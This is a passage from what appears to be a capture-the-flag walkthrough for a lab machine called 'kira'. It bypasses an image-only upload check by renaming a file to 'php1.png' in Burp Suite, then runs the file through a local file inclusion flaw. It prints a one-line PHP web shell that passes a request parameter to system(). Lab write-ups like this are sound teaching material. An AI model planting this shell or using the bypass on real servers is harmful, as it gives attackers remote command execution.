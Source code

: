 Ok, very easy. So, using the `LFI`, we can call the malicious `.php` that we will creat. Now, if you try to upload any other file that doesn't have an extension such as `png`, `jpg` or `jpeg`, the server will say that you can't upload the file:

![](/assets/img/kira/4.png)

Now, this is pretty easy to evade. We just need to intercept the request with `burpsuite` and change the extension from `php` to `php1.png`. Then, we will execute the file using the `LFI`. 
Now, create a `cmd.php`file:

```php
<?php
    system($_REQUEST['cmd']);
?>
```

Now, upload the file and intercept the request with `burpsuite`:

![](/assets/img/kira/5.png)

